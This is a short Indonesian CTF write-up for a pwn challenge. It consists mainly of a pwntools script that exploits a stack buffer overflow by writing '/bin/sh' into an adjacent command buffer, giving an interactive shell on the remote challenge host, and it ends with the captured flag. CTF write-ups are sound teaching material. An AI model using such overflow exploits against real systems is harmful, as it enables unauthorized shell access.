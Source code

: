 decompile chall dengan ida pro

![image.png]( {https://postimg.cc/4KNg5DZb} )

karena saya malas nulis writeup, intinya itu stack exploitation dengan teknik buffer overflow. saya membuat script seperti ini

```
from pwn import *
import sys

EXECUTABLE = "./chall"
HOST, PORT = "pwn.bbctf.fluxus.co.in", 4001
elf = ELF(EXECUTABLE)


if args.REMOTE:
    io = remote(HOST, PORT)
else:
    io = process([EXECUTABLE])

    cmd = """
    source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py
    b *main+0x54
    """
    gdb.attach(io, gdbscript=cmd)

# p = b"no\n"
# p += b"\x00"*5

p = b"A"*8 # -> buf[8]
p += b"/bin/sh\x00" # -> command[24]

io.sendafter(b"?\n", p)
io.interactive()
```

![image.png]( {https://postimg.cc/pyXycSVT} )

<b>flag{4_Cl45siC_M3m0ry_C0rrupt10N}</b>
